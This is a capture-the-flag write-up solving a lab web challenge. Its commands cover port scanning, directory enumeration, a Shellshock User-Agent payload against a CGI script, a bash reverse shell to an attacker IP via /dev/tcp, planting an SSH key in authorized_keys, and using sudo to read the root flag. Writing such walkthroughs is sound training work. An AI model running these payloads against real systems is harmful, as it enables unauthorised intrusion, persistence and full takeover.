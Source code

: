 # Web Hacking 05
```bash
IP=192.168.10.8
PORT=8110
AUTH=admin:PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
```
## Portscan
```bash
$ nmap -p- $IP

Nmap scan report for 192.168.10.8
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8110/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 46.49 seconds
```

```bash
$ curl -I http://$IP:$PORT
HTTP/1.1 401 Unauthorized
Date: Mon, 06 Jun 2022 19:43:42 GMT
Content-Type: text/html
Content-Length: 172
Connection: keep-alive
WWW-Authenticate: Basic realm="Registry realm"
Server: admin : PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc

```

Open `http://$IP:$PORT` in browser and try login as `$AUTH`, success.

`curl http://$IP:$PORT -u $AUTH`

Website shows image of "shellshock"

## SSH
try connect to `admin@$IP` with password, no success.

## Gobuster
```bash
$ gobuster dir -u http://$IP:$PORT -w /usr/share/wordlists/dirb/common.txt -U admin -P PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.8:8110
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Auth User:               admin
[+] Timeout:                 10s
===============================================================
2022/06/06 22:11:05 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 286]
/.htaccess            (Status: 403) [Size: 286]
/cgi-bin/             (Status: 403) [Size: 285]
/index.html           (Status: 200) [Size: 279]
/index                (Status: 200) [Size: 279]
/robots               (Status: 200) [Size: 202]
/robots.txt           (Status: 200) [Size: 202]
/server-status        (Status: 403) [Size: 290]
                                               
===============================================================
2022/06/06 22:12:20 Finished
===============================================================
```

Open robots.txt
```bash
$ curl http://$IP:$PORT/robots.txt -u $AUTH                    

/cgi-bin/vulnerable

This machine appears to be vulnerable to Shellshock, try to obtain a reverse shell.
```

```bash
$ curl -A "() { :;}; echo; /bin/bash -c 'id'" http://$IP:$PORT/cgi-bin/vulnerable -u $AUTH
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

reverse shell with `nc -lvp 1337` and `curl -A "() { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.9.2/1337 0>&1'" http://$IP:$PORT/cgi-bin/vulnerable -u $AUTH`.

the home folder has a `touchmenot.sh`, when executed, the user is changed to joaquim.

```bash
$ cd /home/joaquim
$ id
uid=33(www-data) gid=33(www-data) euid=1000(joaquim) egid=1000(joaquim) groups=1000(joaquim),33(www-data)

$ cat ssh_config.txt
SSH server is running on a deprecated version.

In order to establish an ssh connection, we need to use ED25519 algorithm.

Create a key with the following command and then paste it on the .ssh/authorized_keys file.

ssh-keygen -t ed25519 -C "your_email@example.com"

To access the server, execute the following command:

ssh -i key user@ip
```

on attacker machine the key ist created
```bash
$ ssh-keygen -t ed25519 -C "your_email@example.com"
$ cat key.pub ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```

through reverse shell
```bash
$ cd .ssh
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com" >> authorized_keys
$ cat authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINQSZDrYvsA+71Dsj52F8d5/qBsURESHx8e++XPigszh test@example.com
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```

now connection can be established using `ssh -i key joaquim@$IP`

the user is in sudo group and wont require a password. so now look for the key.

```bash
$ sudo ls -lah /root
total 20K
drwx------ 1 root root 4.0K May 21 11:21 .
drwxr-xr-x 1 root root 4.0K Jun  6 07:15 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  140 Nov 19  2007 .profile
-rw-rw-r-- 1 root root   28 May 21 11:14 flag.zip

$ sudo file /root/flag.zip
/root/flag.zip: ASCII text, with no line terminators

$ sudo cat /root/flag.zip 
Y3liZXJjdGZkezFfNG1fcjAwN30=

$ sudo cat /root/flag.zip | base64 -d
cyberctfd{1_4m_r007}
```

`cyberctfd{1_4m_r007}`
